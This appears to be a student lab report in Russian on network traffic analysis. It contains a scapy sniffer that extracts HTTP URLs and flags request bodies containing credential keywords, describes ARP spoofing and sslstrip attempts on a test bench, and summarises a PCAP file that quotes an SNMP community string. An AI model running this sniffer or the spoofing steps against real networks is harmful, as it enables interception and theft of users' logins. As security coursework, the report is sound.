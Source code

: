 #### Анализ трафика

##### Цель:
* Доработать скрипт packetsniff.py чтобы был виден запрашиваемый Url
* Проанализировать PCAP файл



##### Доработанный скрипт

<details>
<summary>packetsniff.py</summary>

```

#!/usr/bin/python3

import scapy.all as scapy

from scapy.layers import http

def sniff(interface):
  scapy.sniff(iface=interface, store=False, prn=process_sniffed_packets)

def get_url(packet):
  if packet.haslayer(http.HTTPRequest):
      url = packet[http.HTTPRequest].Host + packet[http.HTTPRequest].Path
      return url

def get_login_info(packet):
  if packet.haslayer(http.HTTPRequest):
      if packet.haslayer(scapy.Raw):
          load = packet[scapy.Raw].load
          #load = str(load)
          keybword = ["usr", "uname", "username", "pwd", "pass", "password"]
          for eachword in keybword:
              if eachword.encode() in load:
                  return load


def process_sniffed_packets(packet):
  if packet.haslayer(http.HTTPRequest):
      url = get_url(packet)
      print("[+] HTTP Request>>" + str(url))

      login_info = get_login_info(packet)
      if login_info:
          print("\n\n[+] Possible username and password >>" + str(login_info) + "\n\n")




sniff("eth0")
```
</summary>

</details>


##### На компьютере атакующего.


<details>
<summary>Конфигурация</summary>

  ![alt-текст](/lab-9/img/kos-ifconfig.png)
</summary>


</details>

<details>
<summary>Запускаем arpspoof</summary>

  ![alt-текст](/lab-9/img/arpspoof.png)
</summary>

</details>


<details>
<summary>Запускаем sslstrip</summary>

  ![alt-текст](/lab-9/img/sslstrip_start.png)
</summary>

</details>

<details>
<summary>Результат работы скрипта</summary>

  ![alt-текст](/lab-9/img/packetsniff.py.png)
</summary>
</details>

<details>
<summary>cat sslstrip.log</summary>

##### Видимо sslstrip не может разобрать входящие данные
  ![alt-текст](/lab-9/img/sslstrip-debug.png)
</summary>

</details>

###### Сайт по https на компьютере жертвы благополучно открывается именно по https

<details>
<summary>Результат pscketsniff с ручным вводом адреса</summary>

##### Если вручную забить адрес сайта http://klavogonki.ru , то Url появляется в выводе скрипта.

  ![alt-текст](/lab-9/img/packetsniff-http.png)
</summary>

</details>

##### На компьютере жертвы

<details>
<summary>Конфигурация</summary>

  ![alt-текст](/lab-9/img/client-data.png)
</summary>

</details>

<details>
<summary>http</summary>

##### Если вручную забить адрес сайта http://...... , то только белая страница видна

  ![alt-текст](/lab-9/img/site-http.png)
</summary>

</details>

#### Выводы по sslstrip
У меня на тестовом стенде с вновь установленной kali версии(скриншот ниже)
не удалось получить данные из https запроса при помощи sslstrip.

<details>
<summary>version</summary>

![alt-текст](/lab-9/img/kos-version.png)

</summary>  
</details>



##### Анализ файла

<details>
<summary>pcap</summary>

```

1. 192.168.121.10 сообщил что порт gi0/2 отключился.  
2. К сети подключился клиент с маком 00:21:70:e9:bb:47 и получил ip 192.168.30.11 DHCP.
3. 192.168.121.10 сообщил что gi0/2 подключен
4. 2003:51:6012:120:13 опросил  2003:51:6012:120:2 по SNMP c community n5rAD1ig314IqfioYBWw

5. 2003:51:6012:110::b15:22 соеденился по SSH к  2003:51:6012:121::2
6. 192.168.121.2 сообщил(опправил syslog) о том что пакет на соединение попало в разрешающее правило
7. 192.168.121.2 слил по tftp конфиг на 192.168.110.10
```

</summary>

</details>
